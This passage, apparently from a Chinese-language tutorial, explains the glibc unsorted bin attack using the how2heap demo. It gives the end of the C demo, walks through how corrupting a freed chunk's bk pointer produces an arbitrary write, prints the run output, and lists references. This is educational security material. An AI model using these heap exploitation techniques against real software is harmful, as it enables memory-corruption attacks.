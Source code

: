 ```c

	//------------------------------------

	malloc(400);
	fprintf(stderr, "Let's malloc again to get the chunk we just free. During this time, the target should have already been "
		   "rewritten:\n");
	fprintf(stderr, "%p: %p\n", &stack_var, (void*)stack_var);
}
```

代码给`p[1]`赋值，参照free_chunk示例图，其实是修改p的bk的值。再次`malloc(400)`，将处于队头的p从unsorted list中移除，此时

```c
unsorted_chunks (av)->bk = bck;
bck->fd = unsorted_chunks (av);
```

这部分代码就会产生问题：bck是原`((av)->bk)->bk`，它已经被改写为`(unsigned long)(&stack_var-2)`了。为什么是`&stack_var-2`?参考free_chunk示例图可知这样第二句正好等价于`*stack_var_ptr =...`。 这样一来stack_var的值就在p脱链的过程中被改写成了unsorted_chunk(av)。

可以看出unsorted bin attack就是以这种方式改写任意地址上的值，但是改写的值为unsorted_chunk(av)，并不可控。根据how2heap代码中所说，这种攻击一般是为其他攻击做铺垫，比如修改全局变量global_max_fast的值，再进行fast bin attack。

最后附上运行代码的结果：

```
This file demonstrates unsorted bin attack by write a large unsigned long value into stack
In practice, unsorted bin attack is generally prepared for further attacks, such as rewriting the global variable global_max_fast in libc for further fastbin attack

Let's first look at the target we want to rewrite on stack:
0x7ffd7d7d9108: 0

Now, we allocate first normal chunk on the heap at: 0x1487010
And allocate another normal chunk in order to avoid consolidating the top chunk withthe first one during the free()

We free the first chunk now and it will be inserted in the unsorted bin with its bk pointer point to 0x7f4634097b78
Now emulating a vulnerability that can overwrite the victim->bk pointer
And we write it with the target address-16 (in 32-bits machine, it should be target address-8):0x7ffd7d7d90f8

Let's malloc again to get the chunk we just free. During this time, the target should have already been rewritten:
0x7ffd7d7d9108: 0x7f4634097b78
```



## 参考链接

[malloc源代码](<https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f730d7a2ee496d365bf3546298b9d19b8bddc0d0;hb=bcdaad21d4635931d1bd3b54a7894276925d081d>) 后来发现此glibc代码版本比实际测试使用的要高，但对本实验没有过多影响。

[理解 glibc malloc：主流用户态内存分配器实现原理](<https://blog.csdn.net/maokelong95/article/details/51989081#51_Fast_Bin_364>)

[linux 堆溢出学习之malloc堆管理机制原理详解](<https://blog.csdn.net/qq_29343201/article/details/59614863>)

